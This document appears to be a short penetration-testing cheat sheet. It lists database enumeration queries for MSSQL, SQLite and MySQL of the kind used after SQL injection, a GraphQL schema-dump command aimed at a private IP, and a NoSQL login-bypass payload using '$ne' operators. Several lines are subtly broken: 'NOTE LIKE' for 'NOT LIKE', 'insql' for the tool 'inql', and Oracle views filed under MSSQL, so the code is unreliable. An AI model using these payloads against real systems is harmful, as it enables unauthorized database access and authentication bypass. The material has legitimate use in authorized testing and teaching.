 ## MSSQL queries
```sql
SELECT name FROM master.dbo.sysdatabases # List databases
SELECT * FROM <database_name>.INFORMATION_SCHEMA.TABLES # List tables
SELECT table_name FROM all_tables # List tables
SELECT column_name FROM all_tab_columns WHERE table_name = '<table_name>' # List columns
```

## SQLite queries
References: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
```sql
SELECT tbl_name FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE 'sqlite_%' # List tables
SELECT sql FROM sqlite_master WHERE type!='meta' AND SQL NOT NULL AND name NOTE LIKE 'sqlite_%' AND name='<table>' # List columns
```

## MySQL queries
```sql
SELECT schema_name FROM INFORMATION_SCHEMA.schemata # List databases
SELECT table_schema, table_name FROM INFORMATION_SCHEMA.tables WHERE table_schema !='mysql' AND table_schema!='information_schema' # List tables
SELECT table_schema, table_name, column_name FROM INFORMATION_SCHEMA.columns WHERE table_schema!='mysql' AND table_schema!='information_schema' # List columns
```

## GraphQL
Use `inql` to dump schemas: https://github.com/doyensec/inql
```bash
insql -t http://192.168.206.201/graphql -o inql-dump
```

## NoSQL
```
username[$ne]=admin&password[$ne]=admin&login=login
```